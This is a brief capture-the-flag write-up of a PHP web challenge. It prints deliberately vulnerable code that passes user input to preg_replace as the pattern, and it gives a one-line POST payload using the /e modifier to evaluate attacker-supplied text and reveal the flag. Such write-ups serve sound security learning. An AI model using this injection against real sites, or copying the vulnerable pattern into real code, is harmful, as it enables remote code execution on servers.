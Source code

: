 # Challenge 
```php 
<?php 
error_reporting(0); 
require_once("flag.php"); 
if(!$passwd) 
{ 
  $passwd=$_POST["passwd"]; 
} 
if(!$lockedtxt) 
{ 
  $lockedtxt=$_POST["lockedtxt"]; 
} 
function flag($var) 
{ 
  echo $var; 
} 
if($key) 
{ 
  $unlockedtxt=preg_replace($passwd,$key,$lockedtxt); 
} 
if($unlockedtxt===$flag) 
{ 
  flag("The Correct: "); 
  flag($flag); 
} 
show_source("index.php"); 
// key=flag(\\1) 
 ?>
```

# Solution

paylaod

POST

```
passwd=/(.*)/e&lockedtxt=$flag
```



# Refference
+ [Web: Preg](https://www.dazhuanlan.com/oluoz2/topics/1422998)

